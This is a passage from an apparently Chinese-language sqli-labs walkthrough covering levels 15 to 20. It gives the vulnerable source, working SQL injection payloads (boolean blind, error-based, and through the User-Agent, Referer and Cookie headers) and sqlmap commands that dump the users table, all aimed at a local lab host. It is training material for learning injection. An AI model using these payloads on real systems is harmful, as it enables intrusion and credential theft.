第一个字符是e ...

猜解字段名称
admin' or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+
第一个字符是i ...

猜解字段内容
admin' or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+
第一个字符是D ...
```


sqlmap

```bash
探测注入点
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch
爆破数据库名
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch --current-db
爆破数据表
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch -D security --tables 
最后脱库
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch -D security -T users --dump

```

# Pass16

```bash
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
$result=mysql_query($sql);
```


在Less15的原题上将闭合方式变成了") 

布尔盲注

```bash
判断数据库名称长度
admin") or length(database())=8--+
显示蓝色图片，说明数据库长度为8

逐一猜解数据库名称
admin") or ascii(substr(database(),1,1))=115--+
第一个字符是s  ...

猜解数据表名称
admin") or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>101 --+
第一个字符是e ...

猜解字段名称
admin") or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+
第一个字符是i ...

猜解字段内容
admin") or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+
第一个字符是D ...
```

sqlmap,burpsuite抓包

```bash
POST /Less-16/ HTTP/1.1
Host: 192.168.31.193
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/Less-16/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

passwd=admin&uname=admin
```

```bash
sqlmap -r 1.txt -p 'uname' --level 2 --batch
爆破数据库
sqlmap -r 1.txt -p 'uname' --level 2 --batch --current-db
爆破表
sqlmap -r 1.txt -p 'uname' --level 2 --batch -D security --tables
脱库
sqlmap -r 1.txt -p 'uname' --level 2 --batch -D security --dump
```

# Pass17

```bash
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
```

`uname=1'`

> \[PASSWORD RESET]

提示密码重设置,
&#x20;**注入点是密码的位置** <a name="irTrU"></a>

报错注入

```bash
查询数据库表
passwd=admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1)-- +
爆破数据表
passwd=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) -- +
爆破字段名
passwd=1' and updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
passwd=1' and updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1) -- +
```

# Pass18

```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

源码这里当用户名跟密码都有输入的时候才能触发的，可以看到用户名和密码都被过筛了，也就是不能在这里进行SQL注入了

> **Your IP ADDRESS is: 192.168.31.119**

网页记录了本地ip的信息，说明可能事数据库记录了本机的信息，
即后台获取了一些诸如Ip的信息保存 到数据库中，
并且页面返回了数据包**user-agent**的信息，
那么在请求头中就可能存在注入点\ <a name="hHPE1"></a>

请求头注入

> 源代码标识获取浏览器信息，即user-Agent部分，
> 表示客户端通过什么浏览器向后台请求
> 在后面的请求中也有将该部分进行存储添加到数据库，
> 现在就可以通过一些手段在数据添加的同时进行注入

<a name="Y51fI"></a>

## 报错注入

### 爆破数据库名称

1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
不能像常规的报错盲注一样直接上，我们得考虑一下闭合VALUES，假如我们利用的点是$uagent，那构建格式就应该是1',1,1)#，在SQL语句中相当于

```bash
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,1)#, '$IP', $uname)
```

> Your IP ADDRESS is: 192.168.31.119
> Your User Agent is: 1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
> XPATH syntax error: '~security~'


### 爆破数据表

`1',1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1))#` 

### 爆破字段名

`1',1, updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)) -- +` <a name="MrWWa"></a>

### 爆破字段

`1',1, updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)) -- +` <a 

# sqlmap进行头部注入

> 在头部注入爆破中，sqlmap需要提高扫描等级 level和risk\
> level x(x为1-5)
> 2时会对头部的**cookie**进行扫描注入尝试，
> x>=3时对**user-Agent**,**ip**,**referer** 参数进行扫描
>
> risk x(x 1-3)
> 1时进行大部分扫描
> 2会增加基于事件的测试语句
> 3会增加or语句的sql注入

检测注入点

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 ` 

爆破数据库名

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 --current-db` 

爆破数据表名

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 -D "security" --tables` 

爆破字段内容

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 -D "security" -T "users" --dump`

# Pass19

```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
```


成功登录后返回referer位置，说明在**数据包头referer位置有**注入点

> Your IP ADDRESS is: 192.168.31.119
> Your **Referer** is: http://192.168.31.193/Less-19/

报错注入

## 爆破数据库名

`1',updatexml(1,concat(0x7e,database(),0x7e),1))#`

> Your IP ADDRESS is: 192.168.31.119
> Your Referer is: 1',updatexml(1,concat(0x7e,database(),0x7e),1))#
> XPATH syntax error: '~security~'


## 爆破数据表名

`1',updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1))#`

## 爆破字段名

`1', updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)) -- +` 

## 爆破字段

`1', updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)) -- +` 

## sqlmap

将数据包保存后 在referer后面加上*即可

```bash
POST /Less-19/ HTTP/1.1
Host: 192.168.31.193
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/Less-19/*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

passwd=admin&uname=admin
```

```bash
检测注入点
sqlmap -r 2.txt --batch --level 4
爆破数据库名
sqlmap -r 2.txt --batch --level 4 --current-db
爆破数据表名
sqlmap -r 2.txt --batch --level 4 -D "security" --tables
爆破字段内容
sqlmap -r 2.txt --batch --level 4 -D "security" -T "users" --dump
```

# Pass20

```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
```

登录之后发现有很明显的**cookie**提示

> YOUR USER AGENT IS : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
> YOUR IP ADDRESS IS : 192.168.31.119
> DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
> YOUR COOKIE : uname = admin and expires: Wed 16 Nov 2022 - 19:23:44
> Your Login name:admin
> Your Password:admin
> Your ID:8

登录之后刷新页面，一定要保证cookie还在存在的前提下进行抓包 &#x20;
`uname = admin' order by 3-- +`
`uname=admin' order by 4-- +`

> Issue with your mysql: Unknown column '4' in 'order clause'

3个字段数 <a name="NTGzZ"></a>

# 报错注入

<a name="X6iZN"></a>

## 爆破数据库名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,database(),0x7e),1)--+` <a name="DoliG"></a>

## 爆破数据表名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)--+` <a name="zblHG"></a>

## 爆破字段名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)-- +` <a name="IHMXL"></a>

## 爆破字段

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- +`

<a name="Ea4Mq"></a>

# sqlmap cookie注入

```bash
POST /less-20/index.php HTTP/1.1
Host: 192.168.31.193
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/less-20/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uname=admin*
Connection: close
```

```bash
检测注入点
sqlmap -r 3.txt --batch --level 2
爆破数据库名
sqlmap -r 3.txt --batch --level 2 --current-db
爆破数据表名
sqlmap -r 3.txt --batch --level 2 -D "security" --tables
爆破字段内容
sqlmap -r 3.txt --batch --level 2 -D "security" -T "users" --dump
```
